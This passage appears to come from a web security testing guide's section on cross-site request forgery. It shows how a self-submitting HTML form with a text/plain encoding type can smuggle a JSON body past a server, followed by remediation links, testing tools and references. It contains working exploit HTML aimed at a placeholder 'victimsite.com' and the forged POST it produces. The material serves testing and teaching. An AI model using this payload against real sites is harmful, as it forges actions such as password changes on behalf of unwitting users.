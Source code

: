 In case of web applications in which developers are utilizing JSON for browser to server communication, a problem may arise with the fact that there are no query parameters with the JSON format, which are a must with self-submitting forms. To bypass this case, we can use a self-submitting form with JSON payloads including hidden input to exploit CSRF. We'll have to change the encoding type (`enctype`) to `text/plain` to ensure the payload is delivered as-is. The exploit code will look like the following:

```html
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```

The POST request will be as follow:

```html
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```

When this data is sent as a POST request, the server will happily accept the name and password fields and ignore the one with the name padding as it does not need it.

## Remediation

- See the [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) for prevention measures.

## Tools

- [OWASP ZAP](https://www.zaproxy.org/)
- [CSRF Tester](https://wiki.owasp.org/index.php/Category:OWASP_CSRFTester_Project)
- [Pinata-csrf-tool](https://code.google.com/p/pinata-csrf-tool/)

## References

- [Peter W: “Cross-Site Request Forgeries”](https://web.archive.org/web/20160303230910/http://www.tux.org/~peterw/csrf.txt)
- [Thomas Schreiber: “Session Riding”](https://web.archive.org/web/20160304001446/http://www.securenet.de/papers/Session_Riding.pdf)
- [Oldest known post](https://web.archive.org/web/20000622042229/http://www.zope.org/Members/jim/ZopeSecurity/ClientSideTrojan)
- [Cross-site Request Forgery FAQ](http://www.cgisecurity.com/articles/csrf-faq.shtml)
- [A Most-Neglected Fact About Cross Site Request Forgery (CSRF)](http://yehg.net/lab/pr0js/view.php/A_Most-Neglected_Fact_About_CSRF.pdf)
- [Multi-POST CSRF](https://www.lanmaster53.com/2013/07/17/multi-post-csrf/)
- [SANS Pen Test Webcast: Complete Application pwnage via Multi POST XSRF](https://www.youtube.com/watch?v=EOs5PZiiwug)
